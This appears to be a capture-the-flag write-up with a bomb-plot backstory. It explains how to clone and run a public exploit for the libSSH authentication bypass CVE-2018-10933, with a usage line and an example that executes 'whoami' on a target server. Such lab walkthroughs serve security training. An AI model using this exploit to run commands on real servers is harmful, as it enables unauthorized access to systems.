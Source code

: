 # Save The City

## Description

The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!

## Introduction

Upon connecting via netcat (`nc`), the server provides the name of the libSSH library. If the output is 0.7.5, 0.6.*, or lower, the server is vulnerable to CVE-2018-10933.

### Installation

Clone the repository:

```bash
git clone https://github.com/blacknbunny/CVE-2018-10933.git
```

### Usage 

- Navigate to the cloned directory. 
- Run the exploit script with the appropriate parameters: 

```py
python libsshauthbypass.py --host <ip> --port <port> --command <command_line>
```

Replace <ip> with the IP address of the vulnerable server, <port> with the port number, and <command_line> with the desired command to execute. 

### Example 

```py
python libsshauthbypass.py --host 192.168.1.100 --port 22 --command "whoami"
```

This command will exploit the vulnerability on a server with IP address 192.168.1.100 listening on port 22, executing the whoami command.